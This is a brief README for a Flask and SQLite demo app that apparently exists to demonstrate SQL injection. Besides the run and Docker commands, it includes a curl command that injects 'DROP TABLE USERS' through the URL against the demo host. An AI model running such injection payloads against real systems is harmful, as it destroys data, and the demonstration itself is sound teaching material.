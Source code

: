 # flask_demo
Flask w\ SQL Light Demonstration

To start website:
```sh
python3 run.py
```

Regenerate user table and date:
[http://devops.simpleltc.com:5050/users/generate/]

## Demo points
Docker commands
```sh
docker build -t flask_demo:local .
docker run --rm -p 5050:5050 --name flask_demo flask_demo:local
```

SQL Injection Exploit
```sh
curl -X PUT "http://devops.simpleltc.com:5050/users/6;DROP%20TABLE%20USERS;--?firstName=test"
```
More info about exploit can be found <https://www.pythonforengineers.com/xkcd-style-sql-injection-hack-in-python/>
